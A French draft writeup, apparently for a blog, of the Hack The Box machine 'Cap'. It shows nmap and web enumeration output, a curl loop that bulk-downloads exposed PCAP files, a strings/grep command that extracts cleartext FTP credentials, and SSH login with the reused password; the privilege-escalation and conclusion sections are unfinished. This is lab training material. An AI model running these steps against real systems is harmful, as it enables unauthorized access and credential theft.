

---
# === Archetype writeups – v1 (stable) ===
# === Archetype: writeups (Page Bundle) ===
# Copié vers content/writeups/<nom_ctf>/index.md

# H1 SEO (via title, pas dans le markdown)
title: "Cap — HTB Easy Writeup & Walkthrough"
linkTitle: "Cap"
slug: "cap"
date: 2026-01-29T10:42:12+01:00
#lastmod: 2026-01-29T10:42:12+01:00
draft: true

# --- PaperMod / navigation ---
type: "writeups"
summary: "Writeup générique de machine CTF : documentation de la phase d'énumération, exploitation du foothold, escalade de privilèges et capture des flags. Sert de modèle structuré pour rédiger les solutions détaillées"
description: "Writeup HTB Easy combinant approche pédagogique et analyse technique, avec énumération claire, compréhension de la vulnérabilité et progression structurée jusqu’à l’escalade."
tags: ["Easy"]
categories: ["Mes writeups"]

# --- TOC & mise en page ---
ShowToc: true
TocOpen: true
# toc_droite: 1

# --- Cover / images (Page Bundle) ---
cover:
  image: "image.png"
  alt: "Cap"
  caption: ""
  relative: true
  hidden: false
  hiddenInList: false
  hiddenInSingle: false

# --- Paramètres CTF (placeholders à éditer après création) ---
ctf:
  platform: "Hack The Box"
  machine: "Cap"
  difficulty: "Easy | Medium | Hard"
  target_ip: "10.129.x.x"
  skills: ["Enumeration","Web","Privilege Escalation"]
  time_spent: "2h"
  # vpn_ip: "10.10.14.xx"
  # notes: "Points d'attention…"

# --- Options diverses ---
# weight: 10
# ShowBreadCrumbs: true
# ShowPostNavLinks: true

# --- SEO Reminders (à compléter après création) ---
# 1) Titre :
#    - Doit contenir : Nom Machine + HTB Easy + Writeup
# 2) Description :
#    - Résumé 130–160 caractères
#    - Style “Mix Parfait” : pédagogique + technique
#    - Exemple : "Writeup de <machine> (HTB Easy) : énumération claire, analyse de la vulnérabilité et escalade structurée."
# 3) ALT (image de couverture) :
#    - Mixer vulnérabilité + pédagogie + progression
#    - Exemple : "Machine <machine> HTB Easy vulnérable à <faille>, expliquée étape par étape jusqu'à l'escalade."
# 4) Tags :
#    - Toujours ["Easy"]
#    - Ajouter d'autres selon le thème : ["web","shellshock","heartbleed","enum"]
# 5) Structure :
#    - H1 = titre
#    - Description = meta description + preview social
#    - ALT = SEO image + accessibilité

# --- SEO CHECKLIST (à valider avant publication) ---

# [ ] 1) Titre (title + H1)
#     - Contient : Nom Machine + HTB Easy + Writeup
#     - Unique sur le site
#     - Lisible hors contexte HTB

# [ ] 2) Description (meta)
#     - 130–160 caractères
#     - Pas générique
#     - Ton pédagogique + technique
#     - Exemple :
#       "Writeup de <machine> (HTB Easy) : énumération claire,
#        compréhension de la vulnérabilité et escalade structurée."

# [ ] 3) Image de couverture
#     - Présente (ou fallback)
#     - Nom explicite
#     - Dimensions cohérentes

# [ ] 4) ALT de l’image
#     - Décrit la machine + l’approche
#     - Pédagogique (pas juste technique)
#     - Exemple :
#       "Machine <machine> HTB Easy exploitée étape par étape,
#        de l’énumération à l’escalade de privilèges."

# [ ] 5) Tags
#     - Toujours inclure la difficulté (ex: "Easy")
#     - Ajouter uniquement des tags techniques réels

# [ ] 6) Structure du contenu
#     - Un seul H1
#     - Sections claires et hiérarchisées
#     - Pas de sections SEO artificielles

---

<!-- ====================================================================
Tableau d'infos (modèle) — Remplacer les valeurs entre <...> après création.
Aucun templating Hugo dans le corps, pour éviter les erreurs d'archetype.
====================================================================
| Champ          | Valeur |
|----------------|--------|
| **Plateforme** | <Hack The Box> |
| **Machine**    | <Cap> |
| **Difficulté** | <Easy / Medium / Hard> |
| **Cible**      | <10.129.x.x> |
| **Durée**      | <2h> |
| **Compétences**| <Enumeration, Web, Privilege Escalation> |

---
-->
## Introduction

- Contexte (source, thème, objectif).
- Hypothèses initiales (services attendus, techno probable).
- Objectifs : obtenir `user.txt` puis `root.txt`.

---

## Énumérations

Pour démarrer :
- entre l'adresse IP de la cible `10.129.x.x   cap.htb`  dans /etc/hosts 

```bash
sudo nano /etc/hosts
```

- lance alors mon script d'énumération  :

```bash
mon-nmap cap.htb

# Résultats dans le répertoire scans_nmap/
#  - scans_nmap/full_tcp_scan.txt
#  - scans_nmap/aggressive_vuln_scan.txt
#  - scans_nmap/cms_vuln_scan.txt
#  - scans_nmap/udp_vuln_scan.txt
```


### Scan initial

Le scan initial TCP complet (scans_nmap/full_tcp_scan.txt) te révèle les ports ouverts suivants :

> Note : les IP et timestamps peuvent varier selon les resets HTB ; l’important ici est la surface exposée (Tomcat + RMI/JMX).

```bash
# Nmap 7.98 scan initiated Thu Jan 29 11:28:08 2026 as: /usr/lib/nmap/nmap --privileged -Pn -p- --min-rate 5000 -T4 -oN scans_nmap/full_tcp_scan.txt cap.htb
Warning: 10.129.60.226 giving up on port because retransmission cap hit (6).
Nmap scan report for cap.htb (10.129.60.226)
Host is up (0.013s latency).
Not shown: 61898 closed tcp ports (reset), 3634 filtered tcp ports (no-response)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

# Nmap done at Thu Jan 29 11:28:46 2026 -- 1 IP address (1 host up) scanned in 38.21 seconds

```

### Scan agressif

Le script enchaîne ensuite automatiquement sur un scan agressif orienté vulnérabilités.

Voici le résultat (scans_nmap/aggressive_vuln_scan.txt) :

```bash
[+] Scan agressif orienté vulnérabilités (CTF-perfect LEGACY) pour cap.htb
[+] Commande utilisée :
    nmap -Pn -A -sV -p"21,22,80" --script="(http-vuln-* or http-shellshock or ssl-heartbleed) and not (http-vuln-cve2017-1001000 or http-sql-injection or ssl-cert or sslv2 or ssl-dh-params)" --script-timeout=30s -T4 "cap.htb"

# Nmap 7.98 scan initiated Thu Jan 29 11:28:46 2026 as: /usr/lib/nmap/nmap --privileged -Pn -A -sV -p21,22,80 "--script=(http-vuln-* or http-shellshock or ssl-heartbleed) and not (http-vuln-cve2017-1001000 or http-sql-injection or ssl-cert or sslv2 or ssl-dh-params)" --script-timeout=30s -T4 -oN scans_nmap/aggressive_vuln_scan_raw.txt cap.htb
Nmap scan report for cap.htb (10.129.60.226)
Host is up (0.085s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Gunicorn
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 21/tcp)
HOP RTT      ADDRESS
1   60.77 ms 10.10.16.1
2   7.55 ms  cap.htb (10.129.60.226)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jan 29 11:29:10 2026 -- 1 IP address (1 host up) scanned in 24.28 seconds

```


### Scan ciblé CMS

Vient ensuite le scan ciblé CMS (`scans_nmap/cms_vuln_scan.txt`).

```bash
# Nmap 7.98 scan initiated Thu Jan 29 11:29:10 2026 as: /usr/lib/nmap/nmap --privileged -Pn -sV -p21,22,80 --script=http-wordpress-enum,http-wordpress-brute,http-wordpress-users,http-drupal-enum,http-drupal-enum-users,http-joomla-brute,http-generator,http-robots.txt,http-title,http-headers,http-methods,http-enum,http-devframework,http-cakephp-version,http-php-version,http-config-backup,http-backup-finder,http-sitemap-generator --script-timeout=30s -T4 -oN scans_nmap/cms_vuln_scan.txt cap.htb
Nmap scan report for cap.htb (10.129.60.226)
Host is up (0.017s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Gunicorn
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET
|_http-server-header: gunicorn
| http-headers: 
|   Server: gunicorn
|   Date: Thu, 29 Jan 2026 10:29:11 GMT
|   Connection: close
|   Content-Type: text/html; charset=utf-8
|   Content-Length: 19386
|   
|_  (Request type: HEAD)
|_http-devframework: Couldn't determine the underlying framework or CMS. Try increasing 'httpspider.maxpagecount' value to spider more pages.
|_http-title: Security Dashboard
| http-sitemap-generator: 
|   Directory structure:
|     /
|       Other: 1
|     /data/
|       Other: 1
|     /static/css/
|       css: 6
|     /static/images/author/
|       png: 1
|     /static/js/
|       js: 9
|     /static/js/vendor/
|       js: 1
|   Longest directory structure:
|     Depth: 3
|     Dir: /static/js/vendor/
|   Total files found (by extension):
|_    Other: 2; css: 6; js: 10; png: 1
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jan 29 11:29:48 2026 -- 1 IP address (1 host up) scanned in 37.98 seconds

```


### Scan UDP rapide

Le scan UDP rapide (`scans_nmap/udp_vuln_scan.txt`).

```bash
# Nmap 7.98 scan initiated Thu Jan 29 11:29:48 2026 as: /usr/lib/nmap/nmap --privileged -n -Pn -sU --top-ports 20 -T4 -oN scans_nmap/udp_vuln_scan.txt cap.htb
Nmap scan report for cap.htb (10.129.60.226)
Host is up (0.028s latency).

PORT      STATE         SERVICE
53/udp    open|filtered domain
67/udp    open|filtered dhcps
68/udp    open|filtered dhcpc
69/udp    open|filtered tftp
123/udp   open|filtered ntp
135/udp   closed        msrpc
137/udp   open|filtered netbios-ns
138/udp   closed        netbios-dgm
139/udp   open|filtered netbios-ssn
161/udp   open|filtered snmp
162/udp   open|filtered snmptrap
445/udp   closed        microsoft-ds
500/udp   open|filtered isakmp
514/udp   open|filtered syslog
520/udp   open|filtered route
631/udp   open|filtered ipp
1434/udp  closed        ms-sql-m
1900/udp  open|filtered upnp
4500/udp  closed        nat-t-ike
49152/udp open|filtered unknown

# Nmap done at Thu Jan 29 11:29:50 2026 -- 1 IP address (1 host up) scanned in 1.80 seconds

```


### Scan des répertoires
Pour la partie découverte de chemins web, utilise mon script dédié 

```bash
===== mon-recoweb — RÉSUMÉ DES RÉSULTATS =====
Commande principale : /home/kali/.local/bin/mes-scripts/mon-recoweb
Script              : mon-recoweb v2.1.0

Cible        : cap.htb
Périmètre    : /
Date début   : 2026-01-29 11:55:51

Commandes exécutées (exactes) :

[dirb — découverte initiale]
dirb http://cap.htb/ /usr/share/wordlists/dirb/common.txt -r | tee scans_recoweb/dirb.log

[ffuf — énumération des répertoires]
ffuf -u http://cap.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 30 -timeout 10 -fc 404 -of json -o scans_recoweb/ffuf_dirs.json 2>&1 | tee scans_recoweb/ffuf_dirs.log

[ffuf — énumération des fichiers]
ffuf -u http://cap.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt -t 30 -timeout 10 -fc 404 -of json -o scans_recoweb/ffuf_files.json 2>&1 | tee scans_recoweb/ffuf_files.log

Processus de génération des résultats :
- Les sorties JSON produites par ffuf constituent la source de vérité.
- Les entrées pertinentes sont extraites via jq (URL, code HTTP, taille de réponse).
- Les réponses assimilables à des soft-404 sont filtrées par comparaison des tailles et des codes HTTP.
- Les URLs finales sont reconstruites à partir du périmètre scanné (racine du site ou sous-répertoire ciblé).
- Les résultats sont normalisés sous la forme :
    http://cible/chemin (CODE:xxx|SIZE:yyy)
- Les chemins sont ensuite classés par type :
    • répertoires (/chemin/)
    • fichiers (/chemin.ext)
- Le fichier RESULTS_SUMMARY.txt est généré par agrégation finale, sans retraitement manuel,
  garantissant la reproductibilité complète du scan.

----------------------------------------------------

=== Résultat global (agrégé) ===

http://cap.htb/capture/ (CODE:302|SIZE:220)
http://cap.htb/data (CODE:302|SIZE:208)
http://cap.htb/data/ (CODE:302|SIZE:208)
http://cap.htb/ip (CODE:200|SIZE:17455)
http://cap.htb/ip/ (CODE:200|SIZE:17457)
http://cap.htb/netstat (CODE:200|SIZE:27290)

=== Détails par outil ===

[DIRB]
http://cap.htb/data (CODE:302|SIZE:208)
http://cap.htb/ip (CODE:200|SIZE:17455)
http://cap.htb/netstat (CODE:200|SIZE:27290)

[FFUF — DIRECTORIES]
http://cap.htb/capture/ (CODE:302|SIZE:220)
http://cap.htb/data/ (CODE:302|SIZE:208)
http://cap.htb/ip/ (CODE:200|SIZE:17457)

[FFUF — FILES]

```


### Scan des vhosts
Enfin, teste rapidement la présence de vhosts  avec  mon script 

```bash
=== mon-subdomains cap.htb START ===
Script       : mon-subdomains
Version      : mon-subdomains 2.0.0
Date         : 2026-01-29 11:59:25
Domaine      : cap.htb
IP           : 10.129.60.226
Mode         : large
Master       : /usr/share/wordlists/htb-dns-vh-5000.txt
Codes        : 200,301,302,401,403  (strict=1)

VHOST totaux : 0
  - (aucun)

--- Détails par port ---
Port 80 (http)
  Baseline#1: code=200 size=19386 words=1065 (Host=ryeugkn6u0.cap.htb)
  Baseline#2: code=200 size=19386 words=1065 (Host=i9cvcm5gz5.cap.htb)
  Baseline#3: code=200 size=19386 words=1065 (Host=jfdmdvpooz.cap.htb)
  VHOST (0)
    - (fuzzing sauté : wildcard probable)
    - (explication : réponse identique quel que soit Host → vhost-fuzzing non discriminant)


=== mon-subdomains cap.htb END ===


```


---

## Exploitation – Prise de pied (Foothold)

La phase d’exploitation s’appuie sur les résultats fournis par `mon-nmap`, `mon-recoweb` et `mon-subdomains`, qui te permettent de cibler précisément les points d’entrée exposés.

------

### Résultats réseau (mon-nmap)

Le scan TCP complet met en évidence une surface d’attaque **très limitée**, avec seulement trois services accessibles :

- **21/tcp – FTP (vsftpd 3.0.3)**
- **22/tcp – SSH (OpenSSH 8.2p1)**
- **80/tcp – HTTP (Gunicorn)**

Aucun autre port TCP n’est exposé.  
Le scan UDP rapide ne révèle **aucun service exploitable directement**, les ports détectés étant majoritairement en état *open|filtered*.

Les scans orientés vulnérabilités et CMS ne mettent en évidence **aucune faille connue** ni CMS classique.  
À ce stade, tu constates que le service web correspond à une **application custom**, servie par Gunicorn.

------

### Résultats de l’énumération web (mon-recoweb)

L’énumération des chemins web révèle un nombre **très restreint d’endpoints accessibles**, ce qui confirme une application volontairement minimaliste.

Les chemins suivants sont identifiés :

- **200 OK** :
  - `/ip`
  - `/netstat`
- **302 Redirect** :
  - `/data/`
  - `/capture/`

Les codes **302** indiquent que ces chemins existent côté serveur et sont activement gérés par l’application.  
Tu observes également que les endpoints retournant **200 OK** exposent du contenu dynamique, accessible sans authentification.

------

### Résultats vhosts (mon-subdomains)

Le scan des sous-domaines ne révèle **aucun vhost exploitable**.  
Les réponses HTTP étant strictement identiques quel que soit l’en-tête `Host`, tu peux écarter la piste du vhost-fuzzing dans ce contexte.

------

### Bilan de l’énumération

- La surface d’attaque réseau est **très restreinte**.
- Aucun service ne présente de vulnérabilité évidente ou exploitable directement.
- Le service **HTTP** est le seul à exposer des fonctionnalités accessibles sans prérequis d’authentification.
- L’application web présente **quelques endpoints précis**, clairement identifiés lors de l’énumération, avec notamment les chemins **`/data/`** et **`/capture/`**, qui méritent une attention particulière.

**À ce stade, la surface d’attaque de l’application est clairement délimitée.**

### Premières observations via l’interface web

Avant d’approfondir l’analyse par des scans automatisés, tu prends le temps de **tester manuellement l’interface web** exposée par l’application afin d’en comprendre le fonctionnement réel.

L’exploration de l’interface se concentre sur les menus réellement exploitables :

- Le menu **IP Configuration** affiche correctement les informations réseau, mais reste **purement informatif**, sans interaction possible.
- Le menu **Network Status** présente également des données visibles, sans permettre d’action côté utilisateur.
- Le menu **Security Snapshot (5 Second PCAP + Analysis)** déclenche une action côté serveur.

Après génération de l’instantané de sécurité, l’application **affiche une page** de la forme :

```
http://cap.htb/data/<id>
```

Cette page présente les **résultats de l’analyse** et inclut un **bouton \*Download\***.
 En cliquant sur ce bouton, il est possible de **télécharger la capture réseau correspondante** sous la forme du fichier :

```
<id>.pcap
```

### Analyse des endpoints identifiés

Ces observations orientent l’analyse vers les endpoints **`/capture/`** et surtout **`/data/`**, utilisé par l’application pour exposer les captures réseau.

> Les scans **ffuf** ne sont pas discriminants ici (réponses homogènes et très volumineuses), d’où l’utilisation de `mon-recoweb` avec `--no-ffuf-dirs --no-ffuf-files` et la conservation de **dirb** uniquement.


#### Analyse de /capture/

```bash
mon-recoweb cap.htb/capture/ --no-ffuf-dirs --no-ffuf-files
```

```bash
===== mon-recoweb — RÉSUMÉ DES RÉSULTATS =====
Commande principale : /home/kali/.local/bin/mes-scripts/mon-recoweb
Script              : mon-recoweb v2.1.0

Cible        : cap.htb
Périmètre    : /capture/
Date début   : 2026-01-29 16:36:09

Commandes exécutées (exactes) :

[dirb — découverte initiale]
dirb http://cap.htb/capture/ /usr/share/wordlists/dirb/common.txt -r | tee scans_recoweb/capture/dirb.log

[ffuf — énumération des répertoires]
(ffuf dirs skipped --no-ffuf-dirs)

[ffuf — énumération des fichiers]
(ffuf files skipped --no-ffuf-files)


=== Résultat global (agrégé) ===


=== Détails par outil ===

[DIRB]

[FFUF — DIRECTORIES]
(aucun résultat)

[FFUF — FILES]
(aucun résultat)

[OK] Done.
```

Les résultats montrent clairement que l'endpoint **`/capture/`** n’expose aucune ressource exploitable ; cette piste peut donc être écartée.

#### Analyse de /data/

```bash
mon-recoweb cap.htb/data/ --no-ffuf-dirs --no-ffuf-files
```

```bash

  ===== mon-recoweb — RÉSUMÉ DES RÉSULTATS =====
  Commande principale : /home/kali/.local/bin/mes-scripts/mon-recoweb
  Script              : mon-recoweb v2.1.0
  
  Cible        : cap.htb
  Périmètre    : /data/
  Date début   : 2026-01-29 16:35:54
  
  Commandes exécutées (exactes) :
  
  [dirb — découverte initiale]
  dirb http://cap.htb/data/ /usr/share/wordlists/dirb/common.txt -r | tee scans_recoweb/data/dirb.log
  
  [ffuf — énumération des répertoires]
  (ffuf dirs skipped --no-ffuf-dirs)
  
  [ffuf — énumération des fichiers]
  (ffuf files skipped --no-ffuf-files)
  
  
  === Résultat global (agrégé) ===
  
  http://cap.htb/data/00 (CODE:200|SIZE:17147)
  http://cap.htb/data/01 (CODE:200|SIZE:17144)
  http://cap.htb/data/02 (CODE:200|SIZE:17144)
  http://cap.htb/data/03 (CODE:200|SIZE:17144)
  http://cap.htb/data/0 (CODE:200|SIZE:17147)
  http://cap.htb/data/1 (CODE:200|SIZE:17144)
  http://cap.htb/data/2 (CODE:200|SIZE:17144)
  http://cap.htb/data/3 (CODE:200|SIZE:17144)
  
  === Détails par outil ===
  
  [DIRB]
  http://cap.htb/data/00 (CODE:200|SIZE:17147)
  http://cap.htb/data/01 (CODE:200|SIZE:17144)
  http://cap.htb/data/02 (CODE:200|SIZE:17144)
  http://cap.htb/data/03 (CODE:200|SIZE:17144)
  http://cap.htb/data/0 (CODE:200|SIZE:17147)
  http://cap.htb/data/1 (CODE:200|SIZE:17144)
  http://cap.htb/data/2 (CODE:200|SIZE:17144)
  http://cap.htb/data/3 (CODE:200|SIZE:17144)
  
  [FFUF — DIRECTORIES]
  (aucun résultat)
  
  [FFUF — FILES]
  (aucun résultat)

[OK] Done.

```

Le scan de `/data/` confirme le mécanisme déjà observé via l’interface web.  
La présence inattendue de **`/data/0`** et **`/data/00`** suggère qu’une capture **`0.pcap`** existait déjà avant nos essais manuels.

### Téléchargement en batch des PCAP

Plutôt que de passer par l’interface web, tu peux télécharger directement les fichiers **PCAP** exposés en ligne de commande.

```bash
mkdir -p pcaps

for i in $(seq 0 50); do
  data_url="http://cap.htb/data/$i"
  dl_url="http://cap.htb/download/$i"
  out="pcaps/${i}.pcap"

  # Tester l'existence logique de /data/<id>
  if curl -s -o /dev/null -w "%{http_code}" "$data_url" | grep -q "^200$"; then
    # Télécharger uniquement si /data/<id> existe
    if curl -sL -f -o "$out" "$dl_url"; then
      echo "[+] /data/$i -> downloaded $out"
    else
      rm -f "$out"
    fi
  fi
done


```

voici ce que tu obtiens :

```bash
[+] /data/0 -> downloaded pcaps/0.pcap
[+] /data/1 -> downloaded pcaps/1.pcap
[+] /data/2 -> downloaded pcaps/2.pcap
[+] /data/3 -> downloaded pcaps/3.pcap

ls -l pcaps/    
total 24
-rw-r--r-- 1 kali kali 9935 Jan 29 16:48 0.pcap
-rw-r--r-- 1 kali kali   24 Jan 29 16:48 1.pcap
-rw-r--r-- 1 kali kali   24 Jan 29 16:48 2.pcap
-rw-r--r-- 1 kali kali   24 Jan 29 16:48 3.pcap

```

> Note : Le nombre de fichiers **PCAP** disponibles varie selon le nombre d’essais que tu as réalisés via l’interface web.


Contrairement à **`0.pcap`**, les fichiers **`1.pcap`**, **`2.pcap`** et **`3.pcap`** ne contiennent que **24 bytes**, ce qui indique qu’ils ne correspondent pas à de véritables captures réseau.
 L’analyse se concentre donc sur **`0.pcap`**.

### Analyse de 0.pcap

Pour analyser la capture **`0.pcap`**, il n’est pas nécessaire de lancer **Wireshark**, qui peut s’avérer lourd et inutilement complexe dans ce contexte.

Une approche beaucoup plus simple consiste à extraire directement les chaînes lisibles du fichier et à filtrer les termes liés à l’authentification :

```bash
strings pcaps/0.pcap | grep -iE "user|pass|login|auth|credential|creds"
```

tu obtiens alors :

```bash
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
.form-signin input[type="password"] {
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
USER nathan
331 Please specify the password.
PASS Buck3tH4TF0RM3!
230 Login successful.
```

Ces lignes correspondent à une **séquence d’authentification FTP en clair**, capturée dans le trafic réseau.
 Elles révèlent directement un **couple identifiant / mot de passe valide**, transmis sans chiffrement.

```bash
nathan:Buck3tH4TF0RM3!
```

Dans un contexte **CTF**, tu as toujours intérêt à tester ce type d’identifiants sur les autres services exposés.
 Il est en effet fréquent que des credentials récupérés via un service (FTP, web, base de données) soient **réutilisés pour un accès distant**, notamment via **SSH**.

### connexion SSH

Tu peux maintenant te connecter à la machine cible en **SSH** en utilisant les identifiants récupérés dans la capture réseau (**`nathan:Buck3tH4TF0RM3!`**) :

```bash
ssh nathan@cap.htb  
```

Une fois connecté, tu confirmes rapidement l’accès en listant le contenu du répertoire personnel :

```bash
nathan@cap:~$ ls -l
total 4
-r-------- 1 nathan nathan 33 Jan 29 14:34 user.txt
```

### user.txt

Le fichier **`user.txt`** est accessible et peut être lu immédiatement :

```bash
nathan@cap:~$ cat user.txt
70e3xxxxxxxxxxxxxxxxxxxxxxxx4cdd
```

Ce premier accès valide marque la réussite de la **prise de pied (foothold)** sur la machine.

---

## Escalade de privilèges

Une fois connecté en SSH en tant que `nathan`, tu appliques la méthodologie décrite dans la recette
   .

### Sudo -l

La première étape consiste toujours à vérifier les droits `sudo` :





---

## Conclusion

- Récapitulatif de la chaîne d'attaque (du scan à root).
- Vulnérabilités exploitées & combinaisons.
- Conseils de mitigation et détection.
- Points d'apprentissage personnels.

---

## Pièces jointes (optionnel)

- Scripts, one-liners, captures, notes.  
- Arbo conseillée : `files/<nom_ctf>/…`